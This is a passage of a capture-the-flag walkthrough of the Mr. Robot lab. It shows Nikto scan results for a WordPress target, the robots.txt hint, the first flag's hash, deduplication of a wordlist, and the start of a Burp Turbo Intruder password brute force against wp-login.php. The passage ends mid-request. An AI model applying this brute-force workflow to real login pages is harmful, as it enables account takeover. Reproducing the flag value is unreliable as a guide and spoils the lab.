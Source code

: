 ```
+ /readme.html: This WordPress file reveals the installed version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A WordPress installation was found.
+ /wp-admin/wp-login.php: WordPress login found
+ /blog/wp-login.php: WordPress login found
+ /wp-login.php: WordPress login found
```
Checking the findings I have discovered few interesting pages as */readme.html*, */license.txt*, */wp-login.php* and */robots.txt*.
Let's start from the */robots.txt*:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Let's open this path in a browser or simple WGET it from the terminal:
```
073403c8a58a1f80d943455fb30724b9
```
Hooray! We have found the easiest flag. Moving forward.
Let's have a look on the *fsocity.dic* file. Looks like a wordlist:
```
root@kali:~# head fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
This wordlist contains a lot of duplicates, we need to remove them to speed up the process of brute force attack.
```
cat fsocity.dic | sort -u | uniq > newfsocity.dic
```
Now the list contains only 11k words instead of 800k+, it will save a lot of time.
The page */wp-login.php* looks like the right place applies this list.
According to the *readme.html* the system is running WordPress Version 4.3.9

## Brute force
### Burp suite
There are plenty of tools designed for brute force attack, I will breathily cover a few of them as a bonus.
During my walkthrough, I used [TurboIntruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack) for the Burp Suite. Incredible fast way to get into the web application.
Just intercept the login command in Burp, double click on the password and choose "Send to turbo intruder".
In this case the value of the password will be automatically replaced by *%s* symbol and the tool will do the rest.
```
POST /wp-login.php HTTP/1.1
Host: 192.168.159.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```